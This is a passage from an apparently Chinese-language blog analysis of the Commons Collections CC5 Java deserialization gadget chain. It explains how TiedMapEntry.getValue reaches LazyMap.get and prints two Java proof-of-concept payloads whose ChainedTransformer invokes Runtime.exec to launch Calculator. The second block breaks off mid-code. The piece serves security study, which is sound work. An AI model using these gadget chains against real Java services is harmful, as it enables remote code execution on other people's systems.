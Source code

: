 核心还是调用 LazyMap 的 get 方法，由此调用前面包装好的 ChainedTransformer 的 transform 方法。那么现在核心目的还是寻找到某个类可以传入一个 Map 对象，同时类里面的方法需要调用 Map 对象的 get 方法

## Gadget chain

**Level-1 payload**

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, chainDemo);
        TiedMapEntry rceDemo = new TiedMapEntry(mapDemo, "random");
        rceDemo.getValue();

    }
}
```

上述的 `TiedMapEntry#getValue` 调用了传入的 Map 对象的  get 方法

![](Commons-Collections-反序列化利用链分析/image-20210211153944181.png)

还是跟之前的思路一样，需要跟反序列化结合的话，需要继续构造

**fake CC5 payload**

```java
public class CC5 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException, IOException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, chainDemo);
        TiedMapEntry rceDemo = new TiedMapEntry(mapDemo, "random");
```